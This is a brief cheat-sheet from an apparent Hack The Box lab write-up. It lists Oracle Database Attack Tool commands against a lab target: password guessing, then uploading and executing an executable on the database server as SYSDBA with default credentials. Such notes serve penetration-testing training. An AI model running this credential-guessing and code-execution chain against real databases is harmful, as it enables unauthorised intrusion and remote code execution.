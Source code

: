 # Tools
-  [Oracle Database Attack Tool (ODAT)](https://github.com/quentinhardy/odat)
```
All checks:
./odat.py all -s 10.10.10.82 -p 1521

Guess passwords:
./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

Upload file:
./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe

Execute file:
./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
```
